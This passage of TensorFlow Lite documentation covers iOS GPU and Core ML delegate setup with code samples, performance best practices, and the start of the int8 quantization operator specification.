      <p><pre class="prettyprint lang-c">
    #include "tensorflow/lite/c/c_api.h"
    #include "tensorflow/lite/delegates/gpu/metal_delegate.h"

    // Initialize model
    TfLiteModel* model = TfLiteModelCreateFromFile(model_path);

    // Initialize interpreter with GPU delegate
    TfLiteInterpreterOptions* options = TfLiteInterpreterOptionsCreate();
    TfLiteDelegate* delegate = TFLGPUDelegateCreate(nil);  // default config
    TfLiteInterpreterOptionsAddDelegate(options, metal_delegate);
    TfLiteInterpreter* interpreter = TfLiteInterpreterCreate(model, options);
    TfLiteInterpreterOptionsDelete(options);

    TfLiteInterpreterAllocateTensors(interpreter);

    NSMutableData *input_data = [NSMutableData dataWithLength:input_size * sizeof(float)];
    NSMutableData *output_data = [NSMutableData dataWithLength:output_size * sizeof(float)];
    TfLiteTensor* input = TfLiteInterpreterGetInputTensor(interpreter, 0);
    const TfLiteTensor* output = TfLiteInterpreterGetOutputTensor(interpreter, 0);

    // Run inference
    TfLiteTensorCopyFromBuffer(input, inputData.bytes, inputData.length);
    TfLiteInterpreterInvoke(interpreter);
    TfLiteTensorCopyToBuffer(output, outputData.mutableBytes, outputData.length);

    // Clean up
    TfLiteInterpreterDelete(interpreter);
    TFLGpuDelegateDelete(metal_delegate);
    TfLiteModelDelete(model);
      </pre></p>
    </section>
  </devsite-selector>
</div>

## Supported Models and Ops

With the release of the GPU delegate, we included a handful of models that can
be run on the backend:

*   [MobileNet v1 (224x224) image classification](https://ai.googleblog.com/2017/06/mobilenets-open-source-models-for.html) [[download]](https://storage.googleapis.com/download.tensorflow.org/models/tflite/gpu/mobilenet_v1_1.0_224.tflite)
    <br /><i>(image classification model designed for mobile and embedded based vision applications)</i>
*   [DeepLab segmentation (257x257)](https://ai.googleblog.com/2018/03/semantic-image-segmentation-with.html) [[download]](https://storage.googleapis.com/download.tensorflow.org/models/tflite/gpu/deeplabv3_257_mv_gpu.tflite)
    <br /><i>(image segmentation model that assigns semantic labels (e.g., dog, cat, car) to every pixel in the input image)</i>
*   [MobileNet SSD object detection](https://ai.googleblog.com/2018/07/accelerated-training-and-inference-with.html) [[download]](https://storage.googleapis.com/download.tensorflow.org/models/tflite/gpu/mobile_ssd_v2_float_coco.tflite)
    <br /><i>(image classification model that detects multiple objects with bounding boxes)</i>
*   [PoseNet for pose estimation](https://github.com/tensorflow/tfjs-models/tree/master/posenet) [[download]](https://storage.googleapis.com/download.tensorflow.org/models/tflite/gpu/multi_person_mobilenet_v1_075_float.tflite)
    <br /><i>(vision model that estimates the poses of a person(s) in image or video)</i>

To see a full list of supported ops, please see the
[advanced documentation](gpu_advanced.md).

## Non-supported models and ops

If some of the ops are not supported by the GPU delegate, the framework will
only run a part of the graph on the GPU and the remaining part on the CPU. Due
to the high cost of CPU/GPU synchronization, a split execution mode like this
will often result in slower performance than when the whole network is run on
the CPU alone. In this case, the user will get a warning like:

```none
WARNING: op code #42 cannot be handled by this delegate.
```

We did not provide a callback for this failure, as this is not a true run-time
failure, but something that the developer can observe while trying to get the
network to run on the delegate.

## Tips for optimization

### Optimizing for mobile devices

Some operations that are trivial on the CPU may have a high cost for the GPU on
mobile devices. Reshape operations are particularly expensive to run, including
`BATCH_TO_SPACE`, `SPACE_TO_BATCH`, `SPACE_TO_DEPTH`, and so forth. You should
closely examine use of reshape operations, and consider that may have been
applied only for exploring data or for early iterations of your model. Removing
them can significantly improve performance.

On GPU, tensor data is sliced into 4-channels. Thus, a computation on a tensor
of shape `[B,H,W,5]` will perform about the same on a tensor of shape
`[B,H,W,8]` but significantly worse than `[B,H,W,4]`. In that sense, if the
camera hardware supports image frames in RGBA, feeding that 4-channel input is
significantly faster as a memory copy (from 3-channel RGB to 4-channel RGBX) can
be avoided.

For best performance, you should consider retraining the classifier with a
mobile-optimized network architecture. Optimization for on-device inferencing
can dramatically reduce latency and power consumption by taking advantage of
mobile hardware features.

### Reducing initialization time with serialization

The GPU delegate feature allows you to load from pre-compiled kernel code and
model data serialized and saved on disk from previous runs. This approach avoids
re-compilation and reduces startup time by up to 90%. For instructions on how to
apply serialization to your project, see
[GPU Delegate Serialization](gpu_advanced.md#gpu_delegate_serialization).
# Tensorflow Lite Core ML delegate

The TensorFlow Lite Core ML delegate enables running TensorFlow Lite models on
[Core ML framework](https://developer.apple.com/documentation/coreml), which
results in faster model inference on iOS devices.

Note: This delegate is in experimental (beta) phase. It is available from
TensorFlow Lite 2.4.0 and latest nightly releases.

Note: Core ML delegate supports Core ML version 2 and later.

**Supported iOS versions and devices:**

*   iOS 12 and later. In the older iOS versions, Core ML delegate will
    automatically fallback to CPU.
*   By default, Core ML delegate will only be enabled on devices with A12 SoC
    and later (iPhone Xs and later) to use Neural Engine for faster inference.
    If you want to use Core ML delegate also on the older devices, please see
    [best practices](#best-practices)

**Supported models**

The Core ML delegate currently supports float (FP32 and FP16) models.

## Trying the Core ML delegate on your own model

The Core ML delegate is already included in nightly release of TensorFlow lite
CocoaPods. To use Core ML delegate, change your TensorFlow lite pod to include
subspec `CoreML` in your `Podfile`.

Note: If you want to use C API instead of Objective-C API, you can include
`TensorFlowLiteC/CoreML` pod to do so.

```
target 'YourProjectName'
  pod 'TensorFlowLiteSwift/CoreML', '~> 2.4.0'  # Or TensorFlowLiteObjC/CoreML
```

OR

```
# Particularily useful when you also want to include 'Metal' subspec.
target 'YourProjectName'
  pod 'TensorFlowLiteSwift', '~> 2.4.0', :subspecs => ['CoreML']
```

Note: Core ML delegate can also use C API for Objective-C code. Prior to
TensorFlow Lite 2.4.0 release, this was the only option.

<div>
  <devsite-selector>
    <section>
      <h3>Swift</h3>
      <p><pre class="prettyprint lang-swift">
    let coreMLDelegate = CoreMLDelegate()
    var interpreter: Interpreter

    // Core ML delegate will only be created for devices with Neural Engine
    if coreMLDelegate != nil {
      interpreter = try Interpreter(modelPath: modelPath,
                                    delegates: [coreMLDelegate!])
    } else {
      interpreter = try Interpreter(modelPath: modelPath)
    }
      </pre></p>
    </section>
    <section>
      <h3>Objective-C</h3>
      <p><pre class="prettyprint lang-objc">

    // Import module when using CocoaPods with module support
    @import TFLTensorFlowLite;

    // Or import following headers manually
    # import "tensorflow/lite/objc/apis/TFLCoreMLDelegate.h"
    # import "tensorflow/lite/objc/apis/TFLTensorFlowLite.h"

    // Initialize Core ML delegate
    TFLCoreMLDelegate* coreMLDelegate = [[TFLCoreMLDelegate alloc] init];

    // Initialize interpreter with model path and Core ML delegate
    TFLInterpreterOptions* options = [[TFLInterpreterOptions alloc] init];
    NSError* error = nil;
    TFLInterpreter* interpreter = [[TFLInterpreter alloc]
                                    initWithModelPath:modelPath
                                              options:options
                                            delegates:@[ coreMLDelegate ]
                                                error:&amp;error];
    if (error != nil) { /* Error handling... */ }

    if (![interpreter allocateTensorsWithError:&amp;error]) { /* Error handling... */ }
    if (error != nil) { /* Error handling... */ }

    // Run inference ...
      </pre></p>
    </section>
    <section>
      <h3>C (Until 2.3.0)</h3>
      <p><pre class="prettyprint lang-c">
    #include "tensorflow/lite/delegates/coreml/coreml_delegate.h"

    // Initialize interpreter with model
    TfLiteModel* model = TfLiteModelCreateFromFile(model_path);

    // Initialize interpreter with Core ML delegate
    TfLiteInterpreterOptions* options = TfLiteInterpreterOptionsCreate();
    TfLiteDelegate* delegate = TfLiteCoreMlDelegateCreate(NULL);  // default config
    TfLiteInterpreterOptionsAddDelegate(options, delegate);
    TfLiteInterpreterOptionsDelete(options);

    TfLiteInterpreter* interpreter = TfLiteInterpreterCreate(model, options);

    TfLiteInterpreterAllocateTensors(interpreter);

    // Run inference ...

    /* ... */

    // Dispose resources when it is no longer used.
    // Add following code to the section where you dispose of the delegate
    // (e.g. `dealloc` of class).

    TfLiteInterpreterDelete(interpreter);
    TfLiteCoreMlDelegateDelete(delegate);
    TfLiteModelDelete(model);
      </pre></p>
    </section>
  </devsite-selector>
</div>

## Best practices

### Using Core ML delegate on devices without Neural Engine

By default, Core ML delegate will only be created if the device has Neural
Engine, and will return `null` if the delegate is not created. If you want to
run Core ML delegate on other environments (for example, simulator), pass `.all`
as an option while creating delegate in Swift. On C++ (and Objective-C), you can
pass `TfLiteCoreMlDelegateAllDevices`. Following example shows how to do this:

<div>
  <devsite-selector>
    <section>
      <h3>Swift</h3>
      <p><pre class="prettyprint lang-swift">
    var options = CoreMLDelegate.Options()
    options.enabledDevices = .all
    let coreMLDelegate = CoreMLDelegate(options: options)!
    let interpreter = try Interpreter(modelPath: modelPath,
                                      delegates: [coreMLDelegate])
      </pre></p>
    </section>
    <section>
      <h3>Objective-C</h3>
      <p><pre class="prettyprint lang-objc">
    TFLCoreMLDelegateOptions* coreMLOptions = [[TFLCoreMLDelegateOptions alloc] init];
    coreMLOptions.enabledDevices = TFLCoreMLDelegateEnabledDevicesAll;
    TFLCoreMLDelegate* coreMLDelegate = [[TFLCoreMLDelegate alloc]
                                          initWithOptions:coreMLOptions];

    // Initialize interpreter with delegate
      </pre></p>
    </section>
    <section>
      <h3>C</h3>
      <p><pre class="prettyprint lang-c">
    TfLiteCoreMlDelegateOptions options;
    options.enabled_devices = TfLiteCoreMlDelegateAllDevices;
    TfLiteDelegate* delegate = TfLiteCoreMlDelegateCreate(&amp;options);
    // Initialize interpreter with delegate
      </pre></p>
    </section>
  </devsite-selector>
</div>

### Using Metal(GPU) delegate as a fallback.

When the Core ML delegate is not created, alternatively you can still use
[Metal delegate](https://www.tensorflow.org/lite/performance/gpu#ios) to get
performance benefits. Following example shows how to do this:

<div>
  <devsite-selector>
    <section>
      <h3>Swift</h3>
      <p><pre class="prettyprint lang-swift">
    var delegate = CoreMLDelegate()
    if delegate == nil {
      delegate = MetalDelegate()  // Add Metal delegate options if necessary.
    }

    let interpreter = try Interpreter(modelPath: modelPath,
                                      delegates: [delegate!])
      </pre></p>
    </section>
    <section>
      <h3>Objective-C</h3>
      <p><pre class="prettyprint lang-objc">
    TFLDelegate* delegate = [[TFLCoreMLDelegate alloc] init];
    if (!delegate) {
      // Add Metal delegate options if necessary
      delegate = [[TFLMetalDelegate alloc] init];
    }
    // Initialize interpreter with delegate
      </pre></p>
    </section>
    <section>
      <h3>C</h3>
      <p><pre class="prettyprint lang-c">
    TfLiteCoreMlDelegateOptions options = {};
    delegate = TfLiteCoreMlDelegateCreate(&amp;options);
    if (delegate == NULL) {
      // Add Metal delegate options if necessary
      delegate = TFLGpuDelegateCreate(NULL);
    }
    // Initialize interpreter with delegate
      </pre></p>
    </section>
  </devsite-selector>
</div>

The delegate creation logic reads device's machine id (e.g. iPhone11,1) to
determine its Neural Engine availability. See the
[code](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/delegates/coreml/coreml_delegate.mm)
for more detail. Alternatively, you can implement your own set of denylist
devices using other libraries such as
[DeviceKit](https://github.com/devicekit/DeviceKit).

### Using older Core ML version

Although iOS 13 supports Core ML 3, the model might work better when it is
converted with Core ML 2 model specification. The target conversion version is
set to the latest version by default, but you can change this by setting
`coreMLVersion` (in Swift, `coreml_version` in C API) in the delegate option to
older version.

## Supported ops

Following ops are supported by the Core ML delegate.

*   Add
    *   Only certain shapes are broadcastable. In Core ML tensor layout,
        following tensor shapes are broadcastable. `[B, C, H, W]`, `[B, C, 1,
        1]`, `[B, 1, H, W]`, `[B, 1, 1, 1]`.
*   AveragePool2D
*   Concat
    *   Concatenation should be done along the channel axis.
*   Conv2D
    *   Weights and bias should be constant.
*   DepthwiseConv2D
    *   Weights and bias should be constant.
*   FullyConnected (aka Dense or InnerProduct)
    *   Weights and bias (if present) should be constant.
    *   Only supports single-batch case. Input dimensions should be 1, except
        the last dimension.
*   Hardswish
*   Logistic (aka Sigmoid)
*   MaxPool2D
*   MirrorPad
    *   Only 4D input with `REFLECT` mode is supported. Padding should be
        constant, and is only allowed for H and W dimensions.
*   Mul
    *   Only certain shapes are broadcastable. In Core ML tensor layout,
        following tensor shapes are broadcastable. `[B, C, H, W]`, `[B, C, 1,
        1]`, `[B, 1, H, W]`, `[B, 1, 1, 1]`.
*   Pad and PadV2
    *   Only 4D input is supported. Padding should be constant, and is only
        allowed for H and W dimensions.
*   Relu
*   ReluN1To1
*   Relu6
*   Reshape
    *   Only supported when target Core ML version is 2, not supported when
        targeting Core ML 3.
*   ResizeBilinear
*   SoftMax
*   Tanh
*   TransposeConv
    *   Weights should be constant.

## Feedback

For issues, please create a
[GitHub](https://github.com/tensorflow/tensorflow/issues/new?template=50-other-issues.md)
issue with all the necessary details to reproduce.

## FAQ

* Does CoreML delegate support fallback to CPU if a graph contains unsupported
  ops?
  * Yes
* Does CoreML delegate work on iOS Simulator?
  * Yes. The library includes x86 and x86_64 targets so it can run on
    a simulator, but you will not see performance boost over CPU.
* Does TensorFlow Lite and CoreML delegate support MacOS?
  * TensorFlow Lite is only tested on iOS but not MacOS.
* Is custom TF Lite ops supported?
  * No, CoreML delegate does not support custom ops and they will fallback to
    CPU.

## APIs

*   [Core ML delegate Swift API](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/swift/Sources/CoreMLDelegate.swift)
*   [Core ML delegate C API](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/delegates/coreml/coreml_delegate.h)
    *   This can be used for Objective-C codes. ~~~
# Performance best practices

Mobile and embedded devices have limited computational resources, so it is
important to keep your application resource efficient. We have compiled a list
of best practices and strategies that you can use to improve your TensorFlow
Lite model performance.

## Choose the best model for the task

Depending on the task, you will need to make a tradeoff between model complexity
and size. If your task requires high accuracy, then you may need a large and
complex model. For tasks that require less precision, it is better to use a
smaller model because they not only use less disk space and memory, but they are
also generally faster and more energy efficient. For example, graphs below show
accuracy and latency tradeoffs for some common image classification models.


One example of models optimized for mobile devices are
[MobileNets](https://arxiv.org/abs/1704.04861), which are optimized for mobile
vision applications. [Hosted models](../guide/hosted_models.md) lists several
other models that have been optimized specifically for mobile and embedded
devices.

You can retrain the listed models on your own dataset by using transfer
learning. Check out our transfer learning tutorial for
[image classification](/lite/tutorials/model_maker_image_classification) and
[object detection](https://medium.com/tensorflow/training-and-serving-a-realtime-mobile-object-detector-in-30-minutes-with-cloud-tpus-b78971cf1193).

## Profile your model

Once you have selected a candidate model that is right for your task, it is a
good practice to profile and benchmark your model. TensorFlow Lite
[benchmarking tool](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/lite/tools/benchmark)
has a built-in profiler that shows per operator profiling statistics. This can
help in understanding performance bottlenecks and which operators dominate the
computation time.

You can also use
[TensorFlow Lite tracing](measurement.md#trace_tensorflow_lite_internals_in_android)
to profile the model in your Android application, using standard Android system
tracing, and to visualize the operator invocations by time with GUI based
profiling tools.

## Profile and optimize operators in the graph

If a particular operator appears frequently in the model and, based on
profiling, you find that the operator consumes the most amount of time, you can
look into optimizing that operator. This scenario should be rare as TensorFlow
Lite has optimized versions for most operators. However, you may be able to
write a faster version of a custom op if you know the constraints in which the
operator is executed. Check out our
[custom operator documentation](../custom_operators.md).

## Optimize your model

Model optimization aims to create smaller models that are generally faster and
more energy efficient, so that they can be deployed on mobile devices.
TensorFlow Lite supports multiple optimization techniques, such as quantization.

Check out our [model optimization docs](model_optimization.md) for details.

## Tweak the number of threads

TensorFlow Lite supports multi-threaded kernels for many operators. You can
increase the number of threads and speed up execution of operators. Increasing
the number of threads will, however, make your model use more resources and
power.

For some applications, latency may be more important than energy efficiency. You
can increase the number of threads by setting the number of interpreter
[threads](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/interpreter.h#L346).
Multi-threaded execution, however, comes at the cost of increased performance
variability depending on what else is executed concurrently. This is
particularly the case for mobile apps. For example, isolated tests may show 2x
speed-up vs single-threaded, but, if another app is executing at the same time,
it may result in worse performance than single-threaded.

## Eliminate redundant copies

If your application is not carefully designed, there can be redundant copies
when feeding the input to and reading the output from the model. Make sure to
eliminate redundant copies. If you are using higher level APIs, like Java, make
sure to carefully check the documentation for performance caveats. For example,
the Java API is a lot faster if `ByteBuffers` are used as
[inputs](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/java/src/main/java/org/tensorflow/lite/Interpreter.java#L175).

## Profile your application with platform specific tools

Platform specific tools like
[Android profiler](https://developer.android.com/studio/profile/android-profiler)
and [Instruments](https://help.apple.com/instruments/mac/current/) provide a
wealth of profiling information that can be used to debug your app. Sometimes
the performance bug may be not in the model but in parts of application code
that interact with the model. Make sure to familiarize yourself with platform
specific profiling tools and best practices for your platform.

## Evaluate whether your model benefits from using hardware accelerators available on the device

TensorFlow Lite has added new ways to accelerate models with faster hardware
like GPUs, DSPs, and neural accelerators. Typically, these accelerators are
exposed through [delegate](delegates.md) submodules that take over parts of the
interpreter execution. TensorFlow Lite can use delegates by:

*   Using Android's
    [Neural Networks API](https://developer.android.com/ndk/guides/neuralnetworks/).
    You can utilize these hardware accelerator backends to improve the speed and
    efficiency of your model. To enable the Neural Networks API, check out
    the [NNAPI delegate](nnapi.md) guide.
*   GPU delegate is available on Android and iOS, using OpenGL/OpenCL and Metal,
    respectively. To try them out, see the [GPU delegate tutorial](gpu.md) and
    [documentation](gpu_advanced.md).
*   Hexagon delegate is available on Android. It leverages the Qualcomm Hexagon
    DSP if it is available on the device. See the
    [Hexagon delegate tutorial](hexagon_delegate.md) for more information.
*   It is possible to create your own delegate if you have access to
    non-standard hardware. See [TensorFlow Lite delegates](delegates.md) for
    more information.

Be aware that some accelerators work better for different types of models. Some
delegates only support float models or models optimized in a specific way. It is
important to [benchmark](measurement.md) each delegate to see if it is a good
choice for your application. For example, if you have a very small model, it may
not be worth delegating the model to either the NN API or the GPU. Conversely,
accelerators are a great choice for large models that have high arithmetic
intensity.

## Need more help

The TensorFlow team is happy to help diagnose and address specific performance
issues you may be facing. Please file an issue on
[GitHub](https://github.com/tensorflow/tensorflow/issues) with details of the
issue.
# TensorFlow Lite 8-bit quantization specification

The following document outlines the specification for TensorFlow Lite's 8-bit
quantization scheme. This is intended to assist hardware developers in providing
hardware support for inference with quantized TensorFlow Lite models.

## Specification summary

We are providing a specification, and we can only provide some guarantees on
behaviour if the spec is followed. We also understand different hardware may
have preferences and restrictions that may cause slight deviations when
implementing the spec that result in implementations that are not bit-exact.
Whereas that may be acceptable in most cases (and we will provide a suite of
tests that to the best of our knowledge include per-operation tolerances that we
gathered from several models), the nature of machine learning (and deep learning
in the most common case) makes it impossible to provide any hard guarantees.

8-bit quantization approximates floating point values using the following
formula.

$$real\_value = (int8\_value - zero\_point) \times scale$$

Per-axis (aka per-channel in Conv ops) or per-tensor weights are represented by
`int8` two’s complement values in the range `[-127, 127]` with zero-point equal
to 0. Per-tensor activations/inputs are represented by `int8` two’s complement
values in the range `[-128, 127]`, with a zero-point in range `[-128, 127]`.

There are other exceptions for particular operations that are documented below.

Note: In the past our quantization tooling used per-tensor, asymmetric, `uint8`
quantization. New tooling, reference kernels, and optimized kernels for 8-bit
quantization will use this spec.

## Signed integer vs unsigned integer

TensorFlow Lite quantization will primarily prioritize tooling and kernels for
`int8` quantization for 8-bit. This is for the convenience of symmetric
quantization being represented by zero-point equal to 0. Additionally many
backends have additional optimizations for `int8xint8` accumulation.

## Per-axis vs per-tensor

Per-tensor quantization means that there will be one scale and/or zero-point per
entire tensor. Per-axis quantization means that there will be one scale and/or
`zero_point` per slice in the `quantized_dimension`. The quantized dimension
specifies the dimension of the Tensor's shape that the scales and zero-points
correspond to. For example, a tensor `t`, with `dims=[4, 3, 2, 1]` with
quantization params: `scale=[1.0, 2.0, 3.0]`, `zero_point=[1, 2, 3]`,
`quantization_dimension=1` will be quantized across the second dimension of `t`:

    t[:, 0, :, :] will have scale[0]=1.0, zero_point[0]=1
    t[:, 1, :, :] will have scale[1]=2.0, zero_point[1]=2
    t[:, 2, :, :] will have scale[2]=3.0, zero_point[2]=3

Often, the `quantized_dimension` is the `output_channel` of the weights of
convolutions, but in theory it can be the dimension that corresponds to each
dot-product in the kernel implementation, allowing more quantization granularity
without performance implications. This has large improvements to accuracy.

TFLite has per-axis support for a growing number of operations. At the time of
this document, support exists for Conv2d and DepthwiseConv2d.

## Symmetric vs asymmetric

Activations are asymmetric: they can have their zero-point anywhere within the
signed `int8` range `[-128, 127]`. Many activations are asymmetric in nature and
a zero-point is an relatively inexpensive way to effectively get up to an extra
binary bit of precision. Since activations are only multiplied by constant
weights, the constant zero-point value can be optimized pretty heavily.

Weights are symmetric: forced to have zero-point equal to 0. Weight values are
multiplied by dynamic input and activation values. This means that there is an
unavoidable runtime cost of multiplying the zero-point of the weight with the
activation value. By enforcing that zero-point is 0 we can avoid this cost.

Explanation of the math: this is similar to section 2.3 in
[arXiv:1712.05877](https://arxiv.org/abs/1712.05877), except for the difference
that we allow the scale values to be per-axis. This generalizes readily, as
follows:

$A$ is a $m \times n$ matrix of quantized activations. <br />
$B$ is a $n \times p$ matrix of quantized weights. <br />
Consider multiplying the $j$th row of $A$, $a_j$ by the $k$th column of
$B$, $b_k$, both of length $n$. The quantized integer values and
zero-points values are $q_a$, $z_a$ and $q_b$, $z_b$ respectively.

$$a_j \cdot b_k = \sum_{i=0}^{n} a_{j}^{(i)} b_{k}^{(i)} =
\sum_{i=0}^{n} (q_{a}^{(i)} - z_a) (q_{b}^{(i)} - z_b) =
\sum_{i=0}^{n} q_{a}^{(i)} q_{b}^{(i)} - \sum_{i=0}^{n} q_{a}^{(i)} z_b -
\sum_{i=0}^{n} q_{b}^{(i)} z_a + \sum_{i=0}^{n} z_a z_b$$

<!-- Don't change these `\\(` `\\)` to `$`. mathjax fails here with `$`-->

The \\(\sum_{i=0}^{n} q_{a}^{(i)} q_{b}^{(i)}\\) term is unavoidable since it’s
performing the dot product of the input value and the weight value.

The $$\sum_{i=0}^{n} q_{b}^{(i)} z_a$$ and $$\sum_{i=0}^{n} z_a z_b$$ terms are
made up of constants that remain the same per inference invocation, and thus can
be pre-calculated.

The \\(\sum_{i=0}^{n} q_{a}^{(i)} z_b\\) term needs to be computed every inference
since the activation changes every inference. By enforcing weights to be
symmetric we can remove the cost of this term.

## int8 quantized operator specifications

Below we describe the quantization requirements for our int8 tflite kernels:

```
ADD
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Input 1:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor

AVERAGE_POOL_2D
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  restriction: Input and outputs must all have same scale/zero_point

CONCATENATION
  Input ...:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  restriction: Input and outputs must all have same scale/zero_point

CONV_2D
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Input 1 (Weight):
    data_type  : int8
    range      : [-127, 127]
    granularity: per-axis (dim = 0)
    restriction: zero_point = 0
  Input 2 (Bias):
    data_type  : int32
    range      : [int32_min, int32_max]
    granularity: per-axis
    restriction: (scale, zero_point) = (input0_scale * input1_scale[...], 0)
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor

DEPTHWISE_CONV_2D
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Input 1 (Weight):
    data_type  : int8
    range      : [-127, 127]
    granularity: per-axis (dim = 3)
    restriction: zero_point = 0
  Input 2 (Bias):
    data_type  : int32
    range      : [int32_min, int32_max]
    granularity: per-axis
    restriction: (scale, zero_point) = (input0_scale * input1_scale[...], 0)
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor

FULLY_CONNECTED
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Input 1 (Weight):
    data_type  : int8
    range      : [-127, 127]
    granularity: per-tensor
    restriction: zero_point = 0
  Input 2 (Bias):
    data_type  : int32
    range      : [int32_min, int32_max]
    granularity: per-tensor
    restriction: (scale, zero_point) = (input0_scale * input1_scale[...], 0)
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor

L2_NORMALIZATION
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
    restriction: (scale, zero_point) = (1.0 / 128.0, 0)

LOGISTIC
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
    restriction: (scale, zero_point) = (1.0 / 256.0, -128)

MAX_POOL_2D
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  restriction: Input and outputs must all have same scale/zero_point

MUL
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Input 1:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor

RESHAPE
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  restriction: Input and outputs must all have same scale/zero_point

RESIZE_BILINEAR
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  restriction: Input and outputs must all have same scale/zero_point

SOFTMAX
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
    restriction: (scale, zero_point) = (1.0 / 256.0, -128)

SPACE_TO_DEPTH
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  restriction: Input and outputs must all have same scale/zero_point

TANH
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
    restriction: (scale, zero_point) = (1.0 / 128.0, 0)

PAD
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  restriction: Input and outputs must all have same scale/zero_point

GATHER
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  restriction: Input and outputs must all have same scale/zero_point

BATCH_TO_SPACE_ND
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  restriction: Input and outputs must all have same scale/zero_point

SPACE_TO_BATCH_ND
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  restriction: Input and outputs must all have same scale/zero_point

TRANSPOSE
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  restriction: Input and outputs must all have same scale/zero_point

MEAN
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor

SUB
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Input 1:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor

SUM
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor

SQUEEZE
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  restriction: Input and outputs must all have same scale/zero_point

LOG_SOFTMAX
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
    restriction: (scale, zero_point) = (16.0 / 256.0, 127)

MAXIMUM
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  restriction: Input and outputs must all have same scale/zero_point

ARG_MAX
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor

MINIMUM
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  restriction: Input and outputs must all have same scale/zero_point

LESS
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Input 1:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor

PADV2
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Output 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  restriction: Input and outputs must all have same scale/zero_point

GREATER
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Input 1:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor

GREATER_EQUAL
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Input 1:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor

LESS_EQUAL
  Input 0:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor
  Input 1:
    data_type  : int8
    range      : [-128, 127]
    granularity: per-tensor

SLICE
  Input 0:
    data_type  : int8
    range      : [-128, 127]
